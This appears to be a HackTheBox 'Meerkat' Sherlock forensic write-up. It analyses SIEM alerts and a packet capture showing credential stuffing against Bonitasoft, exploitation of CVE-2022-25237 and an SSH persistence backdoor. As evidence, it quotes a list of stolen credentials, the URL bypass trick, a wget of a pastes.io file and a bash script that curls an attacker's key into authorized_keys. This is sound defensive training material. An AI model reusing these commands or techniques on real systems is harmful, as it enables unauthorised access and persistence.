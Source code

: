 ```yaml
---
tags:
  - htb
  - sherlock
  - soc
  - pcap
  - siem
  - alerts
  - json
  - wireshark
  - jq
  - forensic
aliases:
  - Meerkat
date: 2024-06-12
---
```


### Scenario
As a fast-growing startup, Forela has been utilising a business management platform. Unfortunately, our documentation is scarce, and our administrators aren't the most security aware. As our new security provider we'd like you to have a look at some PCAP and log data we have exported to confirm if we have (or have not) been compromised.

### Artifacts
+ `meerkat-alerts.json:md5sum:f9642326d526c4f5159470b1c5d89b4a`: A SIEM alerts log file in JSON format.
+ `meerkat.pcap:md5sum:7ac62b1e835e0850104f1fc2ecf1f002`: A PCAP file.

### Tools Used
+ `jq` JSON parser - Analyzing the JSON file.
+ WireShark - Analyzing the PCAP file.

### Forensic Analysis

**Using `jq` I quickly searched for alerts with severity level 1.**
```json
$ cat meerkat-alerts.json| jq '.[] | select(.alert.severity==1)' | less
<--snip-->
{
  "ts": "2023-01-19T15:31:31.042Z",
  "event_type": "alert",
  "src_ip": "156.146.62.213",
  "src_port": 53196,
  "dest_ip": "172.31.6.44",
  "dest_port": 8080,
  "vlan": null,
  "proto": "TCP",
  "app_proto": "http",
  "alert": {
    "severity": 1,
    "signature": "ET WEB_SPECIFIC_APPS Bonitasoft Default User Login Attempt M1 (Possible Staging for CVE-2022-25237)",
    "category": "Attempted Administrator Privilege Gain",
    "action": "allowed",
    "signature_id": 2036815,
    "gid": 1,
    "rev": 1,
    "metadata": {
      "signature_severity": [
        "Minor"
      ],
      "former_category": [
        "WEB_SPECIFIC_APPS"
      ],
      "attack_target": [
        "Server"
      ],
      "deployment": [
        "SSLDecrypt",
        "Perimeter"
      ],
      "affected_product": null,
      "created_at": [
        "2022_06_03"
      ],
      "performance_impact": [
        "Low"
      ],
      "updated_at": [
        "2022_06_03"
      ],
      "malware_family": null,
      "tag": null,
      "cve": [
        "CVE_2022_25237"
      ]
    }
  },
  "flow_id": 1652763046938834,
  "pcap_cnt": 2168,
  "tx_id": 0,
  "icmp_code": null,
  "icmp_type": null,
  "tunnel": null,
  "community_id": "1:0XAwrtog1jdopmX+yd1WRDEzMAc="
}
```

Looks like a TA was brute forcing the default credentials for Bonitasoft to exploit the CVE-2022-25237. I confirmed the credential stuffing attack by analyzing the PCAP file.

**PCAP Analysis Using WireShark**
![[Pasted image 20240612174728.png]]

Analyzing the PCAP file it was confirmed that the TA successfully gained access to an account with the credential `seb.broom@forela.co.uk:g0vernm3nt`. And then gained privileged access to the Web Application's REST API by exploiting CVE-2022-25237. After getting privileged access to the Bonita web service the TA uploaded a malicious API extension to get command execution on the web application server.
![[Pasted image 20240612175559.png]]

The TA successfully gained command execution on the server.
![[Pasted image 20240612181452.png]]
![[Pasted image 20240612181529.png]]


**CVE-2022-25237**
According to [NIST](https://nvd.nist.gov/vuln/detail/CVE-2022-25237), *Bonita Web 2021.2 is affected by a authentication/authorization bypass vulnerability due to an overly broad exclude pattern used in the RestAPIAuthorizationFilter. By appending ;i18ntranslation or /../i18ntranslation/ to the end of a URL, users with no privileges can access privileged API endpoints. This can lead to remote code execution by abusing the privileged API actions.*

HTTP Object Extraction:
![[Pasted image 20240612180604.png]]

After discovering this incident I extracted all the HTTP TCP stream objects from the PCAP file and found the usernames and passwords combination list used in this security incident. 
```csv
user,password
Clerc.Killich%40forela.co.uk,vYdwoVhGIwJ
Lauren.Pirozzi%40forela.co.uk,wsp0Uy
Merna.Rammell%40forela.co.uk,u7pWoF36fn
Gianina.Tampling%40forela.co.uk,maUIffqQl
Konstance.Domaschke%40forela.co.uk,6XLZjvD
Vida.Murty%40forela.co.uk,4ulecG
Elka.Cavet%40forela.co.uk,n1aSdc
Noam.Harvett%40forela.co.uk,VDt8bh
Norbie.Bartolini%40forela.co.uk,GV2zlop
Cariotta.Whife%40forela.co.uk,x3hoU0
Mella.Amsberger%40forela.co.uk,4nIYM5WqN
Cyndy.Element%40forela.co.uk,ybWxct
Imelda.Braben%40forela.co.uk,dC7bjGLYB
Marven.Samuel%40forela.co.uk,LPU0qQnt108
Osborne.Humpatch%40forela.co.uk,OJ4WHcI4D
Talya.Sterman%40forela.co.uk,3gCERZ2JMh
Drusilla.Nice%40forela.co.uk,l35Euh0T3Am
Tobiah.Horstead%40forela.co.uk,fp0OQl
Kayley.Northway%40forela.co.uk,s9MC7mkdVU
Adora.Mersh%40forela.co.uk,85Hh8JZkJR6
Guss.Botten%40forela.co.uk,sVMRgGmv0sE
Cordelie.Rostron%40forela.co.uk,mAtdcJh
Ellerey.Bierling%40forela.co.uk,Nva0nKTz
Berny.Ferrarin%40forela.co.uk,lPCO6Z
Nefen.Heffernon%40forela.co.uk,VR0ZA8
Skipton.Pickerill%40forela.co.uk,lcsui1Nu
Nola.Crichmer%40forela.co.uk,QGa58W3L
Sharon.Claus%40forela.co.uk,3X4d06I
Bernelle.Draycott%40forela.co.uk,MmxlUAWe0oW
Samaria.Percifull%40forela.co.uk,CUgc3hzHw5g
Puff.Yapp%40forela.co.uk,M08Aae
Cynthia.Hatto%40forela.co.uk,z0NXI6
seb.broom%40forela.co.uk,g0vernm3nt
Alexi.Siman%40forela.co.uk,iUS11pX
Pete.Panons%40forela.co.uk,BKdkGTB
Rakel.Cawley%40forela.co.uk,h4gW3YLwnW9t
Merl.Lavalde%40forela.co.uk,BgfiOVXNLBc
Antoinette.Vittel%40forela.co.uk,bGtHL8cg
Stanleigh.Tuckwell%40forela.co.uk,VQCk8TGn3
Denny.Gepson%40forela.co.uk,q2JqCSXk69
Aline.Rivallant%40forela.co.uk,gFixyf1nGgf
Jordain.Eykel%40forela.co.uk,rnMXBNdNW0
Gypsy.Henric%40forela.co.uk,lLPqVgmHs5F
Adrea.Shervil%40forela.co.uk,7YoFhtUq
Jenilee.Pressman%40forela.co.uk,3eYwLOKhQEcl
Fredrick.Gerraty%40forela.co.uk,W1By0HUByDHO
Ebony.Oleszcuk%40forela.co.uk,uAWnyfKOjQM
Garrard.Colisbe%40forela.co.uk,jMi9iP
Farleigh.Schouthede%40forela.co.uk,JzI6Dvhy
Ahmed.Monteaux%40forela.co.uk,6uskrtw8U
Griffith.Lumm%40forela.co.uk,QPepd0M8wBK
Winston.Conville%40forela.co.uk,cEmh5W2Vh
Pat.Kloisner%40forela.co.uk,N8ZwVMzF6
Teresita.Benford%40forela.co.uk,uvYjtQzX
Mathian.Skidmore%40forela.co.uk,TQSNp6XrK
Gerri.Cordy%40forela.co.uk,w15pvWGTK
```

I also found an interesting file named `bx5gcr0et8`.
```json
{"p":"0","c":"1","cmd":"wget https://pastes.io/raw/bx5gcr0et8","out":"--2023-01-19 15:38:52--  https://pastes.io/raw/bx5gcr0et8\nResolving pastes.io (pastes.io)... 66.29.132.145\nConnecting to pastes.io (pastes.io)|66.29.132.145|:443... connected.\nHTTP request sent, awaiting response... 200 OK\nLength: 113 [text/plain]\nSaving to: \u2018bx5gcr0et8\u2019\n\n     0K                                                       100% 57.8M=0s\n\n2023-01-19 15:38:53 (57.8 MB/s) - \u2018bx5gcr0et8\u2019 saved [113/113]\n\n","currentDate":"2023-01-19"}
```

A command was issued to download the file from `pastes.io`.
![[Pasted image 20240612181638.png]]

And then another command was issued to run the `bx5gcr0et8` file which was a bash script.
![[Pasted image 20240612181813.png]]

The contents of the bash script `bx5gcr0et8`:
```bash
**#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart**
```

A persistence technique identified by MITRE with a technique ID [T1098.004](https://attack.mitre.org/techniques/T1098/004/). Basically, the adversary used a public key and inserted in into the `/home/ubuntu/.ssh/authorized_keys` file. This technique needs the derivative `PubkeyAuthentication` set to `yes` in the `/etc/ssh/sshd_config` file. And, also the TA can modify the `sshd_config` file further and set the `RSAAuthentication` to the value `yes`, if the public key algorithm is RSA based.

The Public Key used by the TA:
```text
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCgruRMq3DMroGXrcPeeuEqQq3iS/sAL3gryt+nUqbBA/M+KG4ElCvJS4gP2os1b8FMk3ZwvrVTdpEKW6wdGqPl2wxznBjOBstx6OF2yp9RIOb3c/ezgs9zvnaO07YC8Sm4nkkXHgkabqcM7rHEY4Lay0LWF9UbxueSAHIJgQ2ADbKSnlg0gMnJTNRwKbqesk0ZcG3b6icj6nkKykezBLvWc7z4mkSm28ZVTa15W3HUWSEWRbGgJ6eMBdi7WnWXZ92SYDq0XUBV2Sx2gjoDGHwcd6I0q9BU52wWYo3L3LaPEoTcLuA+hnn82086oUzJfmEUtWGlPAXfJBN7vRIMSvsN
```


### Summary
The threat actors used credential stuffing attack against the Bonita Service and escalated their privileges in the web application by exploiting CVE-2022-25237. After that to get remote code execution on the server the threat actors uploaded a malicious extension file which gave them command injection ability. Then, they used this ability to get information of the users and added a SSH backdoor to the `ubuntu` user account for persistence.